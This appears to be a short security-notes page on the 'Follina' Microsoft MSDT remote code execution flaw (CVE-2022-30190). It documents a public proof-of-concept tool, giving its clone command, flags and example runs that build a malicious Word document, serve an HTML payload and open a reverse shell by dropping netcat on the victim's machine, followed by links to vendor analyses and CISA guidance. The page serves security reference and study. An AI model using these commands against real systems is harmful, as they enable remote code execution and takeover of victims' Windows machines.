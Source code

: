 ```yaml
---
title : "CVE-2022-30190"
# pre : ' '
description : "Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'."
date : 2022-06-02T11:07:21+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2022-30190 - Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'

![Example](images/example1.png)

## Installation

```plain
git clone https://github.com/JohnHammond/msdt-follina
```

## Usage

```plain
follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
```

## Flags

```plain
options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

## Examples

Pop `calc.exe`:

```plain
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```plain
python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```plain
python3 follina.py -r 9001
```

![Example](images/example2.png)

## URL List

- [Github.com - msdt-follina](https://github.com/JohnHammond/msdt-follina)
- [YouTube.com - let’s play with a ZERO-DAY vulnerability 'follina'](https://www.youtube.com/watch?v=3ytqP1QvhUc)
- [Fortinet.com - Analysis of Follina Zero Day](https://www.fortinet.com/blog/threat-research/analysis-of-follina-zero-day)
- [Kaspersky.com - Follina: office documents as an entrance](https://www.kaspersky.com/blog/follina-cve-2022-30190-msdt/44461/)
- [Cisa.gov - Microsoft Releases Workaround Guidance for MSDT 'Follina' Vulnerability](https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability)
- [Huntress.com - Rapid Response: Microsoft Office RCE - 'Follina' MSDT Attack](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug)
